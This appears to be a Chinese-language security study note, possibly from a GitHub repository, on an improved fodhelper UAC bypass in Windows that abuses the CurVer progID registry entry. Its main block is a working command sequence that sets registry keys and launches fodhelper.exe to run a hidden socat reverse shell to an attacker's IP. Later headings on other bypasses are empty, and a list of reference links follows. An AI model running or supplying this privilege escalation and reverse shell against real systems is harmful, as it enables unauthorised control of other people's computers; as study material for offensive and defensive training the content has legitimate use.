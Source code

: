 ### ****改进 fodhelper 漏洞利用****

它使用了不同的注册表项，但基本原理和上面是相同的

不写入HKCU\Software\Classes\ms-settings\Shell\Open\command 项，而是利用`CurVer`progID注册表项下的条目，当在同一系统上运行具有不同版本的应用程序的多个实例时，将使用此项。

原理概述：

将在注册表中为我们选择的新 progID 创建一个条目（任何名称都可以），然后将 ms-settings progID 中的 CurVer 条目指向我们新创建的 progID。这样，当 fodhelper 尝试使用 ms-settings progID 打开文件时，它会注意到 CurVer 条目指向我们的新 progID 并检查它以查看要使用的命令。

```bash
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
fodhelper.exe
```

## ****绕过总是通知****

### ****案例研究：磁盘清理计划任务****

## ****自动化UAC绕过****

通过 [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME) 项目中的 

# 更多UAC技术

[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

[https://www.bleepingcomputer.com/news/security/bypassing-windows-10-uac-with-mock-folders-and-dll-hijacking/](https://www.bleepingcomputer.com/news/security/bypassing-windows-10-uac-with-mock-folders-and-dll-hijacking/)

[https://elastic.github.io/security-research/whitepapers/2022/02/03.exploring-windows-uac-bypass-techniques-detection-strategies/article/](https://elastic.github.io/security-research/whitepapers/2022/02/03.exploring-windows-uac-bypass-techniques-detection-strategies/article/)

[https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html)

[https://elastic.github.io/security-research/whitepapers/2022/02/03.exploring-windows-uac-bypass-techniques-detection-strategies/article/](https://elastic.github.io/security-research/whitepapers/2022/02/03.exploring-windows-uac-bypass-techniques-detection-strategies/article/)